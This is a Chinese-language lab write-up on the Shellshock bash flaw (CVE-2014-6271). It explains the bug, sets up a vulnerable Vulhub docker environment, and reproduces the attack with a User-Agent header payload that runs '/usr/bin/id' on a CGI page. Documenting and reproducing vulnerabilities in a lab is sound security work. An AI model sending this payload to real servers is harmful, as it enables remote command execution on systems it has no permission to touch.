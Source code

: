 # Shellshock 破壳漏洞 CVE-2014-6271

## 漏洞描述

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

此前已验证Red Hat、 CentOS 、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10均拥有存在CVE-2014-6271漏洞的bash版本，以bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用bash的Unix、Linux、Mac OS X，针对这些操作系统管理下的数据存在高危威胁。

## 环境搭建

Vulhub执行如下命令：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

## 漏洞复现

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![image-20220303150635558](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031506623.png)

同样的数据包访问safe.cgi，不受影响：

![image-20220303150542827](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031505938.png)



